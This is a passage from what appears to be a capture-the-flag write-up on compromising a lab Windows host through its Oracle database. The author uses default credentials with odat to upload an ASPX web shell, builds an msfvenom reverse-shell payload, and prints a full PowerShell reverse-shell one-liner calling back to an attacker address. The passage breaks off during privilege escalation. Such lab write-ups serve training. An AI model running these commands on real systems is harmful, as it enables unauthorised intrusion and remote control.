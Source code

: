 I will create reverse shell payload using **msfvenom**, planning to upload this to Oracle DB and execute it:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=1337 -f exe > rev.exe`

![](https://i.imgur.com/Y4HHoZJ.png)


However, it seems that user scott for insufficient privilege for this:

`odat utlfile -s 10.10.10.82 -U scott -P tiger -d XE --putFile /temp rev.exe ./rev.exe`

![](https://i.imgur.com/PzG7kgY.png)


From some enumeration, I figured out using **--sysdba** flag will allow me to upload **cmdasp.aspx** file to the DB:


`odat utlfile -s 10.10.10.82 -U scott -P tiger -d XE --putFile C:\\inetpub\\wwwroot shell.aspx /usr/share/webshells/aspx/cmdasp.aspx --sysdba`

![](https://i.imgur.com/n4XdiEh.png)


Now I can execute commands through the web browser:

![](https://i.imgur.com/z837oto.png)


Using the powershell script below, I can spawn a reerse shell:

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.21',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

![](https://i.imgur.com/fpcEW3b.png)


Now I have a reverse shell as the low privilege user.

## Privesc to Administrator

There is **Oracle issue.txt** at user **Phineas**'s Desktop and it reveals link to the dropbox and password for it: **?%Hm8646uC$**

![](https://i.imgur.com/cgjtCpy.png)


Going to Dropbox download link, I see a form for a link password. Weirdly, password from **Oracle issue.txt** above won't work.


![](https://i.imgur.com/5gnpQNW.png)
